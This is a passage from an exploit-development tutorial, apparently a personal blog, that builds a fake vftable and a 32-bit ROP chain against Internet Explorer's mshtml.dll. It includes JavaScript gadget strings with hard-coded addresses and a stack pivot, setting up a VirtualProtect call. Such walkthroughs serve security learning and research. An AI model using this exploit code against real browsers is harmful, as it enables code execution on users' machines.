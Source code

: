 ```js
rop += "\u4343\u4343";
rop += "\u4343\u4343";
rop += "\u4343\u4343";
rop += "\u4343\u4343";
rop += "\u4343\u4343";
rop += "\u4343\u4343";
rop += "\u4343\u4343";
rop += "\u4343\u4343";

// Combine everything
vftable += rop;

````

What we know so far, is that this fake vftable will be loaded on the stack. When this happens, our original `xchg eax, esp ; ret` gadget will still be there, and we will need a way to make sure we don't execute it again. The way we are going to do this is to replace our `41414141` bytes with several `ret` opcodes that will lead to an eventual `add esp, 0xC ; ret` ROP gadget, which will jump over the `xchg eax, esp ; ret` gadget and into our final ROP chain!

Rerunning the new POC shows us program execution has skipped over the virtual function table and into our ROP chain! I will go into detail about the ROP chain, but from here on out there is nothing special about this exploit. Just as [previous](https://connormcgarr.github.io/ROP2/) [blogs](https://connormcgarr.github.io/eko2019-exe/) [of mine](https://connormcgarr.github.io/ROP/) have outlined, constructing a ROP chain is simply the same at this point. For getting started with ROP, please refer to these posts. This post will just walk through the ROP chain constructed for this exploit.

<img src="{{ site.url }}{{ site.baseurl }}/images/browser33.png" alt="">

The first of the 8 `43434343` DWORDS is in ESP, with the other 7 DWORDS located on the stack.

This is great news. From here, we just have a simple task of developing a 32-bit ROP chain! The first step is to get a stack address loaded into a register, so we can use it for RVA calculations. Note that although the stack changes addresses between each instance of a process (usually), this is not a result of ASLR, this is just a result of memory management.

Looking through `mshtml.dll` we can see there is are two great candidates to get a stack address into EAX and ECX.

`pop esp ; pop eax ; ret`

`mov ecx, eax ; call edx`

Notice, however, the `mov ecx, eax` instruction ends in a `call`. We will first pop a gadget that "returns to the stack" into EDX. When the call occurs, our stack will get a return address pushed onto the stack. To compensate for this, and so program execution _doesn't_ execute this return address, we simply can add to ESP to essentially "jump over" the return address. Here is what this block of ROP chains look like.

```js
// Our ROP chain begins here
rop += "\ud937\u74e7";                     // push esp ; pop eax ; ret (74e7d937) (mshtml.dll) Get a stack address into a controllable register
rop += "\u9d55\u74c2";                     // pop edx ; ret (74c29d55) (mshtml.dll) Prepare EDX for COP gadget
rop += "\u07be\u74fb";                     // add esp, 0xC ; ret (74fb07be) (mshtml.dll) Return back to the stack and jump over the return address form previous COP gadget
rop += "\udfbc\u74db";                     // mov ecx, eax ; call edx (74dbdfbc) (mshtml.dll) Place EAX, which contains a stack address, into ECX
rop += "\u9090\u9090";                     // Padding to compensate for previous COP gadget
rop += "\u9090\u9090";                     // Padding to compensate for previous COP gadget
rop += "\u9365\u750c";                     // add esp, 0x18 ; pop ebp ; ret (750c9365) (mshtml.dll) Jump over parameter placeholders into ROP chain

// Parameter placeholders
// The Import Address Table of mshtml.dll has a direct pointer to VirtualProtect 
// 74c21308  77e250ab kernel32!VirtualProtectStub
```